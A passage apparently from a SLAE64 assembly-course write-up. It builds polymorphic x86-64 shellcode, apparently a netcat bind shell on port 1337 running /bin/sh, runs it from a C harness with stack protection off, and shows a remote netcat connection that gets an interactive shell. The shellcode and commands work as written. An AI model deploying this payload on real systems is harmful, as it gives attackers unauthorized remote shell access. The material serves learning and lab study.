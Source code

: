 ```term
syscall
```

Let's test this shellcode once again.

```term
whitecr0wz@SLAE64:~/assembly/assignments/Assignment_6/2_shellcode$ nasm -f elf64 1.asm -o 1.o && ld 1.o -o 1 && for i in $(objdump -d ./1 -M intel |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo
```

###### C format

```term
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x48\x31\xd2\xfe\xc0\xfe\xc1\x48\xbf\xff\x2f\x62\x69\x6e\x2f\x6e\x63\x48\xc1\xef\x08\x57\x48\x89\xe7\x48\xb9\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xe9\x08\xf9\x51\x90\x90\x48
\x89\xe1\x48\xbb\xff\xff\xff\xff\xff\xff\x2d\x65\xc0\xe8\x02\x48\xc1\xeb\x30\x99\x90\xf5\x53\x48\x89\xe3\x49\xba\xff\xff\xff\xff\x31\x33\x33\x37\x41\x57\x41\x5e\x41\x57\x41\x5e\
x49\xc1\xea\x20\x41\x52\x49\x89\xe2\x49\xb9\xff\xff\xff\xff\xff\xff\x2d\x70\x49\xc1\xe9\x30\x41\x51\x49\x89\xe1\x49\xb8\xff\xff\xff\xff\xff\xff\x2d\x6c\x49\xc1\xe8\x30\x48\xc1\x
c5\x3b\x49\xc1\xce\x3c\x49\xc1\xed\x08\x41\x50\x49\x89\xe0\x52\x51\x53\x41\x52\x90\xf9\x4c\x8d\xa4\x24\x01\xff\xff\xff\x90\xfc\x90\x41\x51\x41\x50\x57\x48\x89\xe6\xf9\xf5\x54\x4
1\x5e\x41\x57\x58\xb0\x0c\x04\x2f\x0f\x05"

;

main()
{

  printf("Shellcode Length:  %d\n", strlen(code));

        int (*ret)() = (int(*)())code;

        ret();

}
```

#### EndGame #2

```term
whitecr0wz@SLAE64:~/assembly/assignments/Assignment_6/2_shellcode$ gcc 2_shellcode.c -o 2_shellcode -fno-stack-protector -z execstack -w 
whitecr0wz@SLAE64:~/assembly/assignments/Assignment_6/2_shellcode$ ./2_shellcode 
Shellcode Length:  187

─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
root@whitecr0wz:~# rlwrap nc 192.168.100.205 1337 -v 
192.168.100.205: inverse host lookup failed: Unknown host
(UNKNOWN) [192.168.100.205] 1337 (?) open
python -c 'import pty;pty.spawn("/bin/bash")'; 
<0wz/assembly/assignments/Assignment_6/2_shellcode$ id 
id 
uid=1000(whitecr0wz) gid=1000(whitecr0wz) groups=1000(whitecr0wz),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth)
<0wz/assembly/assignments/Assignment_6/2_shellcode$
```
